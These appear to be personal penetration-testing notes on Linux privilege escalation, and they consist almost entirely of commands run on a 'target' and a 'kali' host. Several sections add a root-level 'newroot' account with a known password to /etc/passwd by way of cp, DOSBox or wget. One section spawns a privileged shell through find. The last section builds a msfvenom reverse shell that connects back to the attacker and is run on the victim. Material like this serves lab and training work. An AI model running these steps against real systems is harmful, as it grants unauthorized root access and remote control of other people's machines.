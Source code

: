 #### cp

Target:
```bash - target
cat /etc/passwd > passwd.orig
```

Kali:
```bash - kali
openssl passwd password
```

Target:
```bash - target
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd.orig
```

```bash - target
cp passwd.orig /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### dosbox
First, you need to ssh into the target with -X flag:
```bash - kali
ssh -X $USER@$TARGET 
```

```bash - target
dosbox
```

![[Pasted image 20220325160823.png]]

---

If the above method does not work, try:

[[0._Port Forwarding Examples#VNC to DosBox]]


---

On the target machine:
```bash - target
echo 'newroot:L9yLGxncbOROc:0:0:root:/root:/bin/bash' > fkpasswd
```

Now in the DOS box:
```bash - target
mount d /
```

```bash - target
D:
```

```bash - target
type D:\HOME\$USER\FKPASSWD >> D:\ETC\PASSWD
```

Back in target:
```bash - target
su newroot
```

```bash - target
password
```

#### find
```bash - target
/usr/bin/find . -exec /bin/sh -p \; -quit
```

#### wget

```bash - kali
openssl passwd password
```

```bash - kali
echo "newroot:D8rrIm3n0b6Sg:0:0:root:/root:/bin/bash" >> passwd
```

```bash - target
wget http://$KALI/passwd -O /etc/passwd
```

```bash - target
su newroot
```

```bash - target
password
```

#### elf file

![[Pasted image 20220406205712.png]]

```bash - target
strings uploadtosecure
```

   
```bash - kali
msfvenom -p linux/x86/shell_reverse_tcp LHOST=$KALI LPORT=80 -f elf > scp.elf
```

![[rlwrap]]

Transfer to victim

[[Python#Server]]

```bash - target
mv scp.elf scp
```

```bash - target
chmod 777 scp
```

```bash - target
./uploadtosecure
```


